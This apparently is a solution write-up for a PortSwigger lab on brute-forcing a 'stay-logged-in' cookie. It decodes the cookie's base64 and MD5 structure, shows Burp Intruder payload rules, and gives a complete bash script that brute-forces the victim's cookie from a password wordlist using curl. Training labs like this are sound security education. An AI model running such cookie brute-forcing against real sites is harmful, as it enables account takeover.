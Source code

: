 # Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his `My account` page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Wordlists: Candidate passwords
---

# Session Cookie Analysis and Attack Execution

## 1. Stay logged in Option
- When logging in and selecting the "Stay logged in" option, the processing appears as follows:  
  ![image](https://github.com/user-attachments/assets/26704adc-199f-4482-86e1-a621abeb964f)

---

## 2. Decoding the Cookie
- We know the cookie is encoded in `base64`. After decoding, we obtain the following structure:  
  `wiener:<hash md5>`  

- The value `51dc30ddc473d43a6011e9ebba6ca770` contains 32 hexadecimal characters, suggesting it is an `MD5 hash`:  
  ![image](https://github.com/user-attachments/assets/9062361d-8f9b-4183-8b59-c7c0fb02bbe8)

---

## 3. Sending the Request to Intruder
- We send the request to the Intruder tool, ensuring the session cookie is empty.  
- Then, we add `payload processing` rules as follows:
  1. Compute the MD5 hash of the password.
  2. Add the prefix `carlos` to the hash.
  3. Encode the resulting string in `base64`:  
  ![image](https://github.com/user-attachments/assets/3327d4f6-8126-46ce-afb7-ad0fbd66084a)

---

## 4. Executing the Attack
- Finally, we execute the attack to identify valid payloads:  
  ![image](https://github.com/user-attachments/assets/4b9e1439-eab0-4804-9174-5920037396d3)  
  ![image](https://github.com/user-attachments/assets/6b55bcb2-2815-45ad-abeb-c000d5831169)



We can perform the same attack using a `bash` script:
```bash
#!/bin/bash

url="https://0a1000b60346ebed84e4d2e5004c0041.web-security-academy.net/my-account"
password_file="passwords.txt"
user="carlos"

if [[ ! -f $password_file ]]; then
    echo "Error: The file '$password_file' does not exist."
    exit 1
fi

generate_encoded_value() {
    local password=$1
    local md5_hash
    local encoded_value

    md5_hash=$(echo -n "$password" | md5sum | awk '{print $1}')
    encoded_value=$(echo -n "$user:$md5_hash" | base64)
    echo "$encoded_value"
}

while read -r password; do
    # Ignorar líneas vacías
    [[ -z "$password" ]] && continue

    encoded_value=$(generate_encoded_value "$password")

    response=$(curl -s -w "%{http_code}" -o response.html "${headers[@]}" \
        -b "stay-logged-in=$encoded_value; Session=" \
        -G "$url" --data-urlencode "id=$user")

    if [[ $response -eq 200 ]]; then
        echo -e "\nPassword: $password"
        echo "Cookie stay-logged-in: $encoded_value"
        break
    fi
done < "$password_file"

rm -f response.html
```

![image](https://github.com/user-attachments/assets/85a88dd5-f401-461b-ac25-50e923e6b576)


